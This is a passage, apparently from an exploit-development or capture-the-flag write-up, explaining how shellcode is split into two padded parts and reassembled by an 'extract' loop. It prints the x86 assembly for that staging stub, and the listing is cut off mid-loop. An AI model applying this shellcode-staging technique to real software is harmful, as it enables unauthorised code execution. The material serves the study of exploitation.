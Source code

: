 So we can split the shellcode in 2 parts and merge them together during "extract". This 
can gives us space for 124 bytes, which is more than enough. In order to keep the offsets 
consistent, we pad each part of the shellcode with our favorite instruction (guess which :P).

The "adjust" part consists of a single instruction:
```assembly
    mov     bl, 0xec                ; bl points to the new tuple area (addresses are fixed)
```
edx register didn't modified, so the new extract will continue pushing shellcode right after
the first one.

Finally, the whole shellcode will be:
```assembly
        nop                             ;
        nop                             ;
        push    eax                     ;
        push    eax                     ;
        pop     edx                     ;
        pop     ebx                     ;
        jmp     SKIP_TUPLES_1           ;
        ;
        ;   1st part of the shellcode
        ;
    SKIP_TUPLES_1:
        mov     bl, 0x1c                ; 
        xor     ecx, ecx                ; 
        mov     cl, 0x20                ; 
    EXTRACT_NEXT:
        push    word ptr [ebx]          ; 
        inc     ebx                     ; 
        inc     ebx                     ;
        inc     ebx                     ;
        inc     ebx                     ;
        push    word ptr [ebx]          ; 
        inc     ebx                     ; 
        inc     ebx                     ;
        inc     ebx                     ;
        inc     ebx                     ;
        pop     ebp                     ; 
        mov     dword ptr [edx], ebp    ; 
        inc     edx                     ; 
        inc     edx                     ;
        inc     edx                     ;
        inc     edx                     ;
        loop    EXTRACT_NEXT            ; 
        nop                             ; 
        nop                             ;
        mov     bl, 0xec                ;
        jmp     SKIP_TUPLES_2           ; 
        ;
        ;   2nd part of the shellcode
        ;
    SKIP_TUPLES_2:
        xor     ecx, ecx                ; 
        mov     cl, 0x20                ; 
    EXTRACT_NEXT:
        push    word ptr [ebx]          ; 
        inc     ebx                     ; 
        inc     ebx                     ;
        inc     ebx                     ;
        inc     ebx                     ;
        push    word ptr [ebx]          ; 
        inc     ebx                     ; 
        inc     ebx                     ;
        inc     ebx                     ;
```